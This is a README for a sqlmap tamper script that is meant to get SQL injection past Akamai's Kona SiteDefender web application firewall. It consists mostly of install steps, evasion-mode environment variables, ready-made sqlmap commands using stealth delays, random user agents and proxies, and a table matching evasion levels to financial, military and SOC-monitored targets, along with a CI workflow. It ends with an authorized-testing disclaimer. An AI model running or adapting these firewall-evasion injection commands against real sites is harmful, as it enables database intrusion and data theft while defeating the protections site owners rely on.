 ## Kona SiteDefender Advanced Bypass Tamper Script 
## Comprehensive evasion techniques collection Research and educational purposes only by Zzl0y
* Multi-level tamper script designed to bypass Akamai's Kona SiteDefender WAF with sophisticated evasion techniques and adaptive payload transformation.


## Usage Guide

## 1. Installation and Setup
```bash
# Make it executable
chmod +x hakamai.py

# Copy to SQLMap tampers directory
cp hakamai.py ~/.sqlmap/tamper/
# OR
cp hakamai.py /opt/sqlmap/tamper/
```

## 2. Environment Configuration
```bash
# Core configuration
export TAMPER_LEVEL=3          # Evasion level (1-5)
export TAMPER_DEBUG=1          # Enable debug logging
export TAMPER_AGGRESSIVE=1     # Enable aggressive mode
export TAMPER_STEALTH=1        # Enable stealth mode
export TAMPER_SEED=12345       # Reproducible randomization seed

# Advanced configuration
export TAMPER_LOG_FILE=/tmp/tamper.log    # Custom log file
export TAMPER_STATS=1                     # Enable statistics
```

## 3. Usage Examples
```bash
# Basic professional usage
sqlmap -u "https://target.com/app.php?id=1" \
       --tamper=hakamai \
       --random-agent \
       --delay=2

# High-security target (Level 4 Stealth)
TAMPER_LEVEL=4 TAMPER_STEALTH=1 sqlmap \
    -u "https://target.com/app.php?id=1" \
    --tamper=hakamai \
    --random-agent \
    --delay=5 \
    --timeout=60 \
    --retries=3 \
    --proxy=http://127.0.0.1:8080

# Maximum evasion (Level 5 Adaptive)
TAMPER_LEVEL=5 TAMPER_AGGRESSIVE=1 sqlmap \
    -u "https://hardened-target.com/app.php?id=1" \
    --tamper=hakamai \
    --random-agent \
    --delay=10 \
    --timeout=90 \
    --threads=1 \
    --technique=BEUST

# Debug and analysis mode
TAMPER_DEBUG=1 TAMPER_LEVEL=3 sqlmap \
    -u "https://target.com/app.php?id=1" \
    --tamper=hakamai \
    --flush-session \
    -v 6 2>&1 | tee analysis.log
```

## 4. Level Selection Guide
```bash
Lvl  Use Case             Target Environment	            Recommended Settings
1    Basic WAF, Testing   Development, Light Security       TAMPER_LEVEL=1
2    Standard Production  Most Corporate WAFs               TAMPER_LEVEL=2 (default)
3    Enhanced Security    Strict Corporate, Government      TAMPER_LEVEL=3 TAMPER_AGGRESSIVE=1
4    High Security        Financial,Military,Critical       TAMPER_LEVEL=4 TAMPER_STEALTH=1
5    Maximum Evasion      Hardened Environments, SOC        TAMPER_LEVEL=5 TAMPER_AGGRESSIVE=1
```

## Hakamai.sh Automation Script
*Hakamai_auto.sh - Kona SiteDefender Testing Suite

## ⚡ Advanced Features

## Performance Monitoring
```bash
# Enable comprehensive monitoring
export TAMPER_STATS=1
export TAMPER_DEBUG=1

# Run with profiling
python -m cProfile -o tamper_profile.prof hakamai.py --benchmark
```

## Custom Seed for Reproducibility
```bash
# Set seed for reproducible testing
export TAMPER_SEED=12345
sqlmap -u "target.com" --tamper=hakamai

# Results will be identical across runs with same seed
```

## Integration with CI/CD
* yaml
```yaml
# .github/workflows/security-test.yml
name: Security Testing with Kona Bypass
on: [push]
jobs:
  security-test:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v2
    - name: Setup SQLMap
      run: |
        git clone https://github.com/sqlmapproject/sqlmap.git
        cp hakamai.py sqlmap/tamper/
    - name: Run Security Test
      env:
        TAMPER_LEVEL: 3
        TAMPER_DEBUG: 1
      run: |
        cd sqlmap
        python sqlmap.py -u "${{ secrets.TEST_URL }}" --tamper=hakamai --batch
```


## DISCLAIMER:
-----------
This script is intended for authorized penetration testing and security research only.
Use only in environments where you have explicit written permission to test.
Unauthorized use against systems you do not own is illegal and unethical.
